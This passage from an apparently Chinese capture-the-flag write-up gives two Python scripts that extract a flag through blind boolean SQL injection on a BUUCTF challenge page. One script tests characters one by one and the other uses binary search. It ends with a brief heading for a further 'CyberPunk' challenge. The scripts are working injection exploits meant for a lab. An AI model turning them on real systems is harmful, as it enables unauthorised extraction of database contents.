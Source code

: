 ```python
#coding=utf-8
import requests

url="http://73afb379-fd87-4c44-a0e8-bb5742cc8d48.node3.buuoj.cn/index.php"

flag=""
#payload=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,2)
for i in range(1,50):
    for c in range(30,155):
        payload="if((ascii(substr((select\nflag\nfrom\nflag),"+str(i)+",1)))="+str(c)+",1,2)"
        data={"id":payload}
        #print data
        req=requests.post(url,data=data).text
        if (len(req)==312):
            flag=flag+chr(c)
            print "Flag:"+flag
            break

```

也可以利用‘>’二分法(判断开闭区间)找

```python
#coding=utf-8
import requests

url="http://73afb379-fd87-4c44-a0e8-bb5742cc8d48.node3.buuoj.cn/index.php"

flag=""
#payload=if(ascii(substr((select(flag)from(flag)),1,1))<102,1,2)
for i in range(1,50):
    l=1
    r=255
    while(l+1<r):
        mid=(l+r)/2
        payload="if((ascii(substr((select\nflag\nfrom\nflag),"+str(i)+",1)))>"+str(mid)+",1,2)"
        data={"id":payload}
        #print chr(mid)
        req=requests.post(url,data=data).text
        if (len(req)==312):
            l=mid
        else :
            r=mid
    flag=flag+chr(r)
    print "Flag:"+flag

```

## Web4 CyberPunk

好吧，源代码里有注释提示file参数
